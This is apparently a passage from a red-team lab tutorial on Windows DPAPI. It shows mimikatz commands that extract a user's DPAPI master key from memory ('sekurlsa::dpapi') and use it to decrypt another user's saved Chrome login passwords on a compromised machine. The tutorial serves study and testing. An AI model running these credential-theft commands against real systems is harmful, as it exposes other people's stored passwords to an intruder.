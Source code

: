 {% code title="" %}
```csharp
dpapi::protect /data:"spotless"
```
{% endcode %}

![text "spotless" encrypted into a blob of bytes](<../../.gitbook/assets/Screenshot from 2019-04-13 15-42-36.png>)

Let's copy/paste the blob into a new file in HxD and save it as `spotless.bin`. To decrypt it while running under `mantvydas` user context:

```csharp
dpapi::blob /in:"c:\users\mantvydas\desktop\spotless.bin" /unprotect
```

![](<../../.gitbook/assets/Screenshot from 2019-04-13 15-43-02.png>)

## Decrypting Other User's Secrets

If you compromised a system and you see that there are other users on the system, you can attempt reading their secrets, but you will not be able to do so since you do not have their DPAPI master key, yet.

Let's try reading user's `spotless` chrome secrets while running as a local admin:

{% code title="attacker@victim" %}
```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /unprotect
```
{% endcode %}

As mentioned, we see an error message suggesting `CryptUnprotectData` is having some issues decrypting the requested secrets:

![](<../../.gitbook/assets/Screenshot from 2019-04-13 15-55-38.png>)

If you escalated privilges, you can try looking for the master key in memory:

{% code title="attacker@victim" %}
```
sekurlsa::dpapi
```
{% endcode %}

We see there is the master key for user `spotless`:

![](<../../.gitbook/assets/Screenshot from 2019-04-13 16-03-34.png>)

Let's now use that master key for `spotless` to decrypt those Chrome secrets we could not earlier:

{% code title="attacker@victim" %}
```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /unprotect /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```
{% endcode %}
